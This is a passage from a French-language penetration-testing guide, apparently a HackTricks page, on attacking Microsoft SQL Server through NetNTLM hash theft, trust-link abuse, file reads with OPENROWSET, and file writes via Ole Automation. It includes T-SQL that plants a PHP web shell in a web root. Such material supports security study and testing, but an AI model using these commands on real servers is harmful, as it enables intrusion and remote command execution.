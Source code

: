 {% endhint %}

En utilisant des outils tels que **responder** ou **Inveigh**, il est possible de **voler le hachage NetNTLM**.\
Vous pouvez voir comment utiliser ces outils dans:

{% content-ref url="../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md" %}
[spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md](../../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)
{% endcontent-ref %}

### Abus des liens de confiance MSSQL

[**Lisez cet article**](../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md) **pour trouver plus d'informations sur la façon d'exploiter cette fonctionnalité:**

{% content-ref url="../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md" %}
[abusing-ad-mssql.md](../../windows-hardening/active-directory-methodology/abusing-ad-mssql.md)
{% endcontent-ref %}

### **Écrire des fichiers**

Pour écrire des fichiers en utilisant `MSSQL`, nous **devons activer** [**les procédures d'automatisation Ole**](https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/ole-automation-procedures-server-configuration-option), ce qui nécessite des privilèges d'administrateur, puis exécuter certaines procédures stockées pour créer le fichier:
```bash
# Enable Ole Automation Procedures
sp_configure 'show advanced options', 1
RECONFIGURE

sp_configure 'Ole Automation Procedures', 1
RECONFIGURE

# Create a File
DECLARE @OLE INT
DECLARE @FileID INT
EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
EXECUTE sp_OADestroy @FileID
EXECUTE sp_OADestroy @OLE
```
### **Lire un fichier avec** OPENROWSET

Par défaut, `MSSQL` permet la **lecture de fichiers sur n'importe quel fichier du système d'exploitation auquel le compte a accès en lecture**. Nous pouvons utiliser la requête SQL suivante :
```sql
SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
```
Cependant, l'option **`BULK`** nécessite l'autorisation **`ADMINISTER BULK OPERATIONS`** ou l'autorisation **`ADMINISTER DATABASE BULK OPERATIONS`**.
```sql
# Check if you have it
SELECT * FROM fn_my_permissions(NULL, 'SERVER') WHERE permission_name='ADMINISTER BULK OPERATIONS' OR permission_name='ADMINISTER DATABASE BULK OPERATIONS';
```
#### Vecteur basé sur les erreurs pour les injections SQL :

